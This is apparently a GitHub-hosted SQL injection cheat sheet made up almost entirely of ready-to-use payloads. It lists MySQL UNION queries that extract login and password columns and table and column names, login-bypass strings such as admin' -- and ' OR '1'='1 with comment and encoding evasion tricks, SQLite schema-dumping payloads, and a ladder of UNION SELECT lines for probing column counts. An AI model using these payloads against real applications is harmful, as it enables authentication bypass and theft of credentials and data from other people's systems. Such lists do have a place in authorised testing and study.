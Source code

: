 # SQLi 
#### Command characters are (#, /**/, ;, —)

##### Note: We can use the following code to make it true

    ("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/")

    
..............................................................................
# MySQL

    ' union select login,password from users-- -
    ' union all select 1,(select password from users),3 -- 
    '+UNION SELECT 2,3,table_name,4 from INFORMATION_SCHEMA.tables
    '+UNION SELECT 2,group_concat(table_name),3,4 from INFORMATION_SCHEMA.TABLES
    '+UNION SELECT NULL,+COLUMN_NAME,+NULL,+NULL+FROM INFORMATION_SCHEMA.COLUMNS
    '+UNION SELECT NULL, group_concat(COLUMN_NAME),+NULL, NULL FROM+INFORMATION_SCHEMA.COLUMNS
    ' union select GROUP_CONCAT(login SEPARATOR ', '), GROUP_CONCAT(password SEPARATOR ', ') FROM users# –– -
    ' UNION SELECT 2,3,group_concat(table_name),4 from INFORMATION_SCHEMA.tables where table_SCHEMA=database()--
    ' UNIon SELect 1,(SELect GROup_CONcat(COLumn_NAMe) FROm INFormation_SCHema.COLumns WHEre TABle_NAMe='users')-- -
    ' UNIon SELect 1,(SELect GROup_CONcat(TABle_NAMe) FROm INFormation_SCHema.TABles WHEre TABle_SCHema=DATabase())-- -
    ' union select table_name, GROUP_CONCAT(column_name SEPARATOR ', ') FROM information_schema.columns where table_name = 'users'# –– -
    
..............................................................................
 
    user=admin' ;&pass=a 
    user=admin' --&pass=a
    user=admin' /*&pass=a
    adm'||'in &Pass=' glob '*
    user=ad'||'min'%00&pass=a
    user=1' OR '1'='1%00&pass=a
    user=admin' OR '1'='1';&pass=a
    user=admin' OR '1'='1'--&pass=a
    user=admin' OR '1'='1'/*&pass=a
    user=admin&pass=a'/**/IS/**/NOT/**/'b
    user='admi'||CHAR(' AND pass='-0+110)||''
    user=adm' ||   trim('in', Password: )  || '&pass=a
    user=admin' union select * from users where '1&pass=a
    user=' union select * from users where username in("admin")/*&pass=a
    user=mali'/**/union/**/SELECT/**/*/**/FROM/**/users/**/LIMIT/**/1;&pass=a
    User='/**/union/**/select*from/**/users/**/where/**/username/**/in(char(97,100,109,105,110))/*&pass=a

.....................................................................................
# For SQLi (SQLite)

    'union select sqlite_version() -- -
    123' UNION SELECT 1, sqlite_version(), 3;--
    ' UNION SELECT table_name FROM sqlite_master --
    123' UNION SELECT name, sql, null from sqlite_master;--
    ' UNION SELECT null, sql FROM sqlite_master WHERE type='view' --
    ' UNION SELECT null, sql FROM sqlite_master WHERE type='index' --
    ' UNION SELECT null, sql FROM sqlite_master WHERE type='trigger' --
    ' UNION SELECT null, table_name FROM pragma_table_info('sqlite_master') --
    ' UNION SELECT group_concat(name) FROM sqlite_master WHERE type='table' --
    ' UNION SELECT null, sql FROM sqlite_master WHERE type='view' AND sql NOT NULL --
    ' UNION SELECT sql FROM sqlite_master WHERE type='table' AND name='your_table' --
    ' UNION SELECT null, sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL --
    ' UNION SELECT null, sql FROM sqlite_master WHERE type='index' AND sql NOT NULL --
    ' UNION SELECT null, sql FROM sqlite_master WHERE type='trigger' AND sql NOT NULL --
    ' UNION SELECT null, name FROM pragma_module_list() WHERE name NOT LIKE 'sqlite_%' --
    ' UNION SELECT null, name FROM pragma_function_list() WHERE name NOT LIKE 'sqlite_%' --
    ' UNION SELECT tbl_name FROM sqlite_master WHERE TYPE='table' AND tbl_name NOT LIKE'sqlite_%'
    ' UNION SELECT null, sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name' --
    ' UNION SELECT null, sql FROM sqlite_master WHERE type='table' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' --
    ' UNION SELECT group_concat(sql) FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name' --
### The structure of the command code to create the desired payload is as follows
        'union select <column> FROM <table_name> Were <conditions > --
    
        
.....................................................................................................................
    
    ' UNION SELECT NULL --
    ' UNION SELECT 1 --
    ' UNION SELECT 'a' --
    ' UNION SELECT 'a', 'b' --
    ' UNION SELECT 'a', 'b', 'c' --
    ' UNION SELECT 'a', 'b', 'c', 'd' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', '0' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', '0', '1' --

